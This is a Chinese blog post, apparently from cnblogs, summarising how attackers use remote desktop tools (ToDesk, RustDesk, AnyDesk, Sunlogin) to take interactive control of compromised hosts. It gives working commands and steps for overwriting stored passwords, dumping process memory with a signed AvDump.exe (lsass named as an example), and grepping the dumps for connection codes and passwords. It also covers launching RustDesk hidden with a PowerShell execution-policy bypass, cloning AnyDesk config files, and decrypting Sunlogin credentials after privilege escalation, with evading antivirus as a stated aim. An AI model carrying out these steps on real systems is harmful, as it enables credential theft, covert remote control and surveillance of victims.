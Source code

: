 ```yaml
---
layout: post
title: "远程desk工具利用总结"
date: "2023-06-02T01:18:34.496Z"
---
```

远程desk工具利用总结
============

在平时打web或者打内网时难免遇到一种情况，就是需要以当前用户身份，通过远程桌面的形式操控主机。已达到退杀软、操控聊天软件以及其他需要交互式的操作，这个时候就需要借助远程桌面软件来操控目标机。

NO.1 Todesk
===========

根据目标软件安装情况有以下两种利用方法

1.目标机已有完整版todesk。
-----------------

1）改配置文件。

老版本可替换至本地查看密码(此法在最近更新的几个版本中已经失效)，新版本只可更改密码。

改C:\\Program Files (x86)\\ToDesk下conf.ini文件tempAuthPassEx字段

tga5h42d

    b219c2a861e176d319b0a4e0463896d4af2a02ed7bc88da794541701b46f1af2fc4a9864ae00772cc8d924a801bdaaa3b47fbd2fa637ac4b
    

65tu07zr

    11a48a2981bfda260f2f1a890a97b2ed9fcb9b48a262d20e3a68f6c56d6790cd910e1618a7747df448922b0cfe16c284728d28864923d3c8
    

kill进程重启即可。

2）内存读密码

`userInfo.json`和`devlist_xx.json`文件有userid（连接码）

dump内存,搜索连接码，上下几行会有密码

4.3.3以下临时密码为6位数字

2.目标机无todest，安装官方精简版
--------------------

dump内存 仅测试4.3.3.0  
运行精简版（需bypassUAC），dump子进程（主进程为system权限）

![](https://img2023.cnblogs.com/blog/1822325/202306/1822325-20230601210734156-1280374108.png)

![](https://img2023.cnblogs.com/blog/1822325/202306/1822325-20230601210705578-299618731.png)

AvDump.exe是Avast杀毒软件中自带的一个程序，可用于转储指定进程（lsass.exe）内存数据，它带有Avast杀软数字签名。

    AvDump.exe --pid 954 --exception_ptr 0 --thread_id 0 --dump_level 1 --dump_file lsass.dmp
    

可通过定位被控端版本 4.3.3.0 、主机名、公网ip、系统版本（更准确），来找到相应位置。

\*shell快速提取，不一定有效，密码可能在输出的前后两行

设置utf-8

CHCP 65001

1）连接码

shell findstr "20220829" C:\\Users\\Public\\tod.dmp 时间定位

shell findstr "ip地址" C:\\Users\\Public\\tod.dmp ip定位

2）连接密码

主要靠系统版本号定位，具体看连接码定位字符串显示的版本号

shell findstr "19044" C:\\Users\\Public\\tod.dmp

![Wi nd ows 规 格  版 本 号  安 装 日 期  操 作 系 统 内 部 版 本  Windows10 专 业 版  21H2  2022 / 7 / 17 ](https://img2023.cnblogs.com/blog/1822325/202306/1822325-20230601211201902-1771600144.png)

通常为8位数，数字字母混合

![6 ](https://img2023.cnblogs.com/blog/1822325/202306/1822325-20230601211201952-1537364037.png)

NO.2 Rustdesk
=============

单机版，无需绕UAC，但部分软件操作会提示UAC。  
配置文件地址  
`C:\Users\username\AppData\Roaming\RustDesk\config\RustDesk.toml`

使用powershell可以无窗口执行  
`powershell-executionPolicy bypass Start-Process -WindowStyle hidden -FilePath 'C:/user/rust.exe'`  
第一次运行rustdesk会生成配置文件，然后结束进程  
`taskkill/f /t /im rust.exe`  
在配置文件中添加密码，6位数密码  
![](https://img2023.cnblogs.com/blog/1822325/202306/1822325-20230601210129092-1143481617.png)

在内网还可配置直连功能RustDesk2.toml

    [options]
    direct-server='Y'
    direct-access-port='8443'
    
    

NO.3 Anydesk
============

复制本地C:\\Users\\guoguang\\AppData\\Roaming\\AnyDesk 下四个文件到远程主机上  
删除本地文件，重启开启连接

NO.4 向日葵
========

自从向日葵12.5版本后，原encry\_pwd和fastcode字段已经不在配置文件config.ini和注册表HKEY\_USERS.DEFAULT\\Software\\Oray\\SunLogin\\SunloginClient\\SunloginInfo内  
解决方案一  
根据分析，上述字段移动至C:\\ProgramData\\Oray\\SunloginClient\\sys\_config.ini中  
此配置文件默认需要SYSTEM权限才可以读取  
提权后拿到id和加密后的密码，经测试算法没变，通过现有项目解密即可 [https://github.com/wafinfo/Sunflower\_get\_Password](https://github.com/wafinfo/Sunflower_get_Password)  
解决方案二  
通过dump内存的方式匹配明文字符串获取，参考： [https://red.rizhan.icu/?thread-176.htm](https://red.rizhan.icu/?thread-176.htm)  
id正则为k\[0-9\]{8,}  
密码正则为>\[a-z0-9\]{6}，每次刷新后密码的均会保存在内存中